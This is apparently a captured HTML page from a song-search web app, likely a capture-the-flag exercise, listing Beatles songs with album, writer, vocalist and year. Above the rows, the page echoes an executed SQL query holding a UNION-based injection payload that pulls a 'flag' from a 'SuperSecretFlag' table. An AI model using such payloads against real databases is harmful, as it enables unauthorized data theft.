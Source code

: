 <form name="frm4" id="frm4"  action="/index.php" method="post">
<table>
<tr><td>Search by song title:</td>
<td><input type="text" name="song" value=""/></td></tr>
<tr><td></td><td><input type="text" name="song2" value=""/></td></tr>
<tr><td></td><td><input type="text" name="song3" value=""/></td></tr>
<tr><td></td><td><input type="submit" value="Submit" /></td></tr>
</table>


<table>
<tr style="color: #0000ff; font-size:24px;">
<td width=20></td>
<td width=200>Title</td>
<td width=120>Album</td>
<td width=140>Writer</td>
<td width=140>Vocal</td>
<td width=80>Year</td>
</tr>

SELECT * FROM Song Where title like '%' union select 0,0,0,0,0,flag from SuperSecretFlag -- %'; <
> <td></td><td>Act Naturally</td><td>Help!</td><td>Johnny Russell,Voni Morrison </td><td>Ringo Starr</td><td>1965</td></tr> <
> <td></td><td>All My Loving</td><td>With the Beatles</td><td>Lennon,McCartney</td><td>Paul McCartney</td><td>1963</td></tr> <
> <td></td><td>All You Need Is Love</td><td>Magical Mystery Tour</td><td>Lennon,McCartney</td><td>Lennon</td><td>1967</td></tr> <
> <td></td><td>And Your Bird Can Sing</td><td>Revolver</td><td>Lennon,McCartney</td><td>Lennon</td><td>1966</td></tr> <
> <td></td><td>Another Girl</td><td>Help!</td><td>Lennon,McCartney</td><td>McCartney</td><td>1965</td></tr> <
> <td></td><td>Ask Me Why</td><td>Please Please Me</td><td>Lennon,McCartney</td><td>Lennon</td><td>1963</td></tr> <
> <td></td><td>Baby, You're a Rich Man</td><td>Magical Mystery Tour,(B-side of All You Need Is Love)</td><td>Lennon,McCartney</td><td>Lennon</td><td>1967</td></tr> <
> <td></td><td>Back in the U.S.S.R.</td><td>The Beatles (White Album)</td><td>Lennon,McCartney</td><td>McCartney</td><td>1968</td></tr> <
> <td></td><td>The Ballad of John and Yoko</td><td>Past Masters</td><td>Lennon,McCartney</td><td>Lennon</td><td>1969</td></tr> <
> <td></td><td>Being for the Benefit of Mr. Kite!</td><td>Sgt. Pepper's Lonely Hearts Club Band</td><td>Lennon,McCartney</td><td>Lennon</td><td>1967</td></tr> <
> <td></td><td>Blackbird</td><td>The Beatles (White Album)</td><td>Lennon,McCartney</td><td>McCartney</td><td>1968</td></tr> <
> <td></td><td>Boys</td><td>Please Please Me</td><td>Luther Dixon,Wes Farrell </td><td>Starr</td><td>1963</td></tr> <
> <td></td><td>Carry That Weight</td><td>Abbey Road</td><td>Lennon,McCartney</td><td>McCartney,(with Lennon,,Harrison,,and Starr)</td><td>1969</td></tr> <
> <td></td><td>Come Together</td><td>Abbey Road</td><td>Lennon,McCartney</td><td>Lennon</td><td>1969</td></tr> <
> <td></td><td>Cry Baby Cry</td><td>The Beatles (White Album)</td><td>Lennon,McCartney</td><td>Lennon,(with McCartney)</td><td>1968</td></tr> <
> <td></td><td>Day Tripper</td><td>Past Masters,(Double A-side with We Can Work It Out)</td><td>Lennon,McCartney</td><td>Lennon,McCartney</td><td>1965</td></tr> <
> <td></td><td>Devil in Her Heart</td><td>With the Beatles</td><td>Richard Drapkin </td><td>Harrison</td><td>1963</td></tr> <
> <td></td><td>Dig It</td><td>Let It Be</td><td>Lennon,McCartney,Harrison,Starkey</td><td>Lennon</td><td>1970</td></tr> <
> <td></td><td>Do You Want to Know a Secret</td><td>Please Please Me</td><td>Lennon,McCartney</td><td>Harrison</td><td>1963</td></tr> <
> <td></td><td>Don't Bother Me</td><td>With the Beatles</td><td>Harrison</td><td>Harrison</td><td>1963</td></tr> <
> <td></td><td>Don't Pass Me By</td><td>The Beatles (White Album)</td><td>Starkey</td><td>Starr</td><td>1968</td></tr> <
> <td></td><td>Eight Days a Week</td><td>Beatles for Sale</td><td>Lennon,McCartney</td><td>Lennon,McCartney</td><td>1964</td></tr> <